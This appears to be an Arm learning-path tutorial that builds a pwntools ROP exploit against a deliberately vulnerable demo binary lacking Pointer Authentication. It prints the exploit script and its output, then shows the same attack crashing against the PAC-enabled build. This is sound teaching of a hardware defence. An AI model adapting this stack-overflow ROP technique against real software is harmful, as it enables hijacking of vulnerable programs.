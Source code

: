```yaml
---
# User change
title: "Exploit applications built without Pointer Authentication instructions"

weight: 4 # 1 is first, 2 is second, etc.

# Do not modify
layout: "learningpathall"
---
```

## Prerequisites

Install [pwntools](https://github.com/Gallopsled/pwntools) and its dependencies. We will use this exploit development library to demonstrate how you can exploit the application we built in the previous section without pointer authentication.
 
```console
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev -y
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```
## Exploit the application

Create `exploit.py` with the following to attack the `main_nopac` application, and cause `func2()` to be executed.

```python
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='aarch64')

binary = ELF('./main_nopac')

rop = ROP(binary)

padding = b'A' * 24

rop.call(binary.symbols['func2']) # return to func2

print(rop.gadgets)
log.info("ROP chain:\n" + rop.dump())

print(rop.chain())
data = padding + rop.chain()
print(data)
data = data.replace(b'\0',b'')

print(data)
r = process(['./main_nopac', data])

r.interactive()
```
If necessary, make the script executable.
```console
chmod +x ./exploit.py
```
## Run exploit.py on main_nopac

Run the script which exploits `main_nopac`:

```console
./exploit.py
```

Which should result output similar to the following:
```output
[*] '/home/ubuntu/pac/main_nopac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/ubuntu/pac/main_nopac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006f8 0x4006f8()
b'\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@'
[+] Starting local process './main_nopac': pid 4585
[*] Switching to interactive mode
Hello World!
Hello from func2!
$
```
You have successfully altered execution flow of the program and jumped to address `0x4006f8` (`func2`).

You will be in an interactive shell prompt whilst still inside the application:
```output
$ ls
Makefile  exploit.py  main.c  main_nopac  main_pac
$
```
Use `Ctrl+C` to exit the shell, and hence the `main_nopac` application.
```output
[*] Interrupted
[*] Stopped process './main_nopac' (pid 4618)
```

## Attempt to exploit main_pac

Replace the arguments in the script using `sed`. This saves a new file `exploit_pac.py`:
```console
sed 's/main_nopac/main_pac/g' exploit.py > exploit_pac.py
chmod +x exploit_pac.py
```
Now execute `exploit_pac.py`
```console
./exploit_pac.py
```
The script attempts the same attack:
```output
[*] '/home/ubuntu/pac/main_pac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/ubuntu/pac/main_pac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257988: Gadget(0x40f8c4, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006fc 0x4006fc()
b'\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@'
[+] Starting local process './main_pac': pid 4605
[*] Switching to interactive mode
Hello World!
[*] Got EOF while reading in interactive
$
```
When you attempt to use the shell prompt you generate a `SIGSEGV` exception instead, and the application terminates.
```output
$ ls
[*] Process './main_pac' stopped with exit code -11 (SIGSEGV) (pid 4605)
[*] Got EOF while sending in interactive
```
This demonstrates how the Armv8.3-A Pointer Authentication feature provides protection against software attacks.
